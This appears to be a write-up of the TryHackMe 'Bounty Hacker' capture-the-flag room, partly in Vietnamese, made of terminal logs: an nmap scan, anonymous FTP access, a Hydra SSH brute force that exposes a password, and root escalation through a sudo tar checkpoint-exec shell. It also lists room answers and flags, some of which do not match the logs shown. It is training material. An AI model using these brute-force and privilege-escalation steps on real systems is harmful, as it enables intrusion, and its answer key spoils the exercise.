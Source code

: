 # Bounty Hacker

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Chủ đề của

- Network Enumeration
- FTP Enumeration
- Brute Forcing (SSH)
- Misconfigured Binaries

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

1. Deploy the machine.

`No answer needed`

2. Find open ports on the machine

```
bibo318@parrot:~/CTFs/tryhackme/Bounty Hacker$ sudo nmap -sS -sC -sV -O -A 10.10.156.215
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 14:51 CEST
Nmap scan report for 10.10.156.215
Host is up (0.031s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 49154/tcp)
HOP RTT      ADDRESS
1   31.06 ms 10.8.0.1
2   31.25 ms 10.10.156.215

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.10 seconds
```

`No answer needed`

3. Who wrote the task list?

```
bibo318@parrot:~/CTFs/tryhackme/Bounty Hacker$ ftp 10.10.156.215
Connected to 10.10.156.215.
220 (vsFTPd 3.0.3)
Name (10.10.156.215:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (5.0435 kB/s)
mget task.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (245.9491 kB/s)
ftp> exit
221 Goodbye.
```

```
bibo318@parrot:~/CTFs/tryhackme/Bounty Hacker$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

`lin`

4. What service can you bruteforce with the text file found?

`ssh`

5. What is the users password?

```
bibo318@parrot:~/CTFs/tryhackme/Bounty Hacker$ hydra -l lin -P locks.txt 10.10.156.215 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 14:58:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.156.215:22/
[22][ssh] host: 10.10.156.215   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 14:58:57
```

`RedDr4gonSynd1cat3`

6. user.txt

```
bibo318@parrot:~/CTFs/tryhackme/Bounty Hacker$ ssh lin@10.10.156.215
The authenticity of host '10.10.156.215 (10.10.156.215)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.156.215' (ECDSA) to the list of known hosts.
lin@10.10.156.215's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{V0N318*****CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$
```

`THM{V0N318*****CR1M3_SyNd1C4T312**123:))}`

7. root.txt

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- [.. / tar](https://gtfobins.github.io/gtfobins/tar/)

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{V0N318*****80UN7Y_h4cK3r}
#
```

`THM{V0N318*****80UN7Y_h4cK3r12**123:))}`
